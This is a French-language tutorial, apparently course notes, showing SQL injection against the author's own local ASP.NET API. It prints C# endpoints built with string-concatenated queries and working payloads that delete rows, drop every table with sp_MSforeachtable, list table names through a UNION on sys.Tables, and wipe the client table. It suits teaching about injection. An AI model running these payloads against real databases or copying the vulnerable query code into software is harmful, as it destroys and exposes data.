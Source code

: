 # 04 Injection `SQL`



## Mon attaque

Table avant attaque :

<img src="assets/before-injection-sql-oob.png" alt="before-injection-sql-oob" style="zoom:50%;" />

Code du programme :

```cs
int InsertClient(SqlConnection con, ClientDto client)
{
    var sql = $"INSERT INTO Client (nom, prenom) VALUES ('{client.Nom}', '{client.Prenom}')";
    var cmd = new SqlCommand(sql, con);

    con.Open();
    var rowsAffected = cmd.ExecuteNonQuery();

    return rowsAffected;
}
```

Les données ne sont pas échappées et directement concaténées dans la requête.

Requête `sql attack`

```http
POST https://localhost:7094/client
Content-Type: application/json

{
    "nom": "toto",
    "prenom": "Raymond');DELETE FROM Client;INSERT INTO Client (nom, prenom) VALUES('kill','kill"
}
```

contenu de la variable `sql` :

<img src="assets/sql-var-content-gty.png" alt="sql-var-content-gty" style="zoom:50%;" />

```sql
INSERT INTO Client (nom, prenom) VALUES ('toto', 'Raymond');
DELETE FROM Client;
INSERT INTO Client (nom, prenom) VALUES('kill','kill')
```

Résultat de l'attaque :

<img src="assets/after-injection-sql-cxx.png" alt="after-injection-sql-cxx" style="zoom:50%;" />



### Version hardcore

On peut aussi détruire toutes les tables :

Avant

<img src="assets/before-all-attack-table-tgq.png" alt="before-all-attack-table-tgq" style="zoom:33%;" />

Code de la requête :

```http
POST https://localhost:7094/client
Content-Type: application/json

{
    "nom": "Raymond');EXEC sp_MSforeachtable @command1 = 'DROP TABLE ?';INSERT INTO Two (b) VALUES('kill"
}
```

Requête pour détruire toutes les tables (stackoverflow : https://stackoverflow.com/questions/27606518/how-to-drop-all-tables-from-a-database-with-one-sql-query)

```sql
EXEC sp_MSforeachtable @command1 = "DROP TABLE ?"
```

Résultat :

<img src="assets/after-all-table-attack-uui.png" alt="after-all-table-attack-uui" style="zoom:50%;" />

Les tables n'existant plus, cela lève une erreur.



## Trouver le nom des tables

Méthode `c#` recevant la requête :

```c#
List<ClientDto> GetClientFiltering([FromBody] Filter filter, SqlConnection con)
{
    var cmd = new SqlCommand($"SELECT nom, prenom FROM Client WHERE prenom LIKE '{filter.FilterString}%'", con);
    con.Open();
    // ...
```

On va injecter ce code `SQL` dans la requête :

```json
GET https://localhost:7094/client/filter
Content-Type: application/json

{
    "filterString": "Sc' UNION SELECT name COLLATE SQL_Latin1_General_CP1_CI_AS, type_desc COLLATE SQL_Latin1_General_CP1_CI_AS FROM sys.Tables  --"
}
```

Ce qui donne le `SQL` complet

```sql
SELECT nom, prenom FROM Client WHERE prenom LIKE 's%' UNION SELECT name COLLATE SQL_Latin1_General_CP1_CI_AS, type_desc COLLATE SQL_Latin1_General_CP1_CI_AS FROM sys.Tables  -- %'
```

On utilise `--` pour annuler la fin de la requête et ne pas générer d'erreur de syntaxe `SQL`.

L'encodage de la table `sys.Tables` n'est pas le même que celui de `Client`, on utilise `COLLATE ENC_NAME` pour ré-encoder à la volée :

```sql
SELECT name COLLATE SQL_Latin1_General_CP1_CI_AS, ...
```

Pour un `UNION`, il faut le même nombre de colonnes, c'est le seul intérêt d'ajouter `type_desc`.

#### On récupère ainsi tous les noms de table !!!

```json

[
  {
    "nom": "bareme_salaire",
    "prenom": "USER_TABLE"
  },
  {
    "nom": "Bidon",
    "prenom": "USER_TABLE"
  },
  {
    "nom": "carte_fidelite",
    "prenom": "USER_TABLE"
  },
  {
    "nom": "Classique",
    "prenom": "USER_TABLE"
  },
  {
    "nom": "client",
    "prenom": "USER_TABLE"
  },
  // ...
```

Maintenant on attaque la table voulue facilement :

```http
GET https://localhost:7094/client/filter
Content-Type: application/json

{
    "filterString": "Sc'; DELETE FROM client  --"
}
```

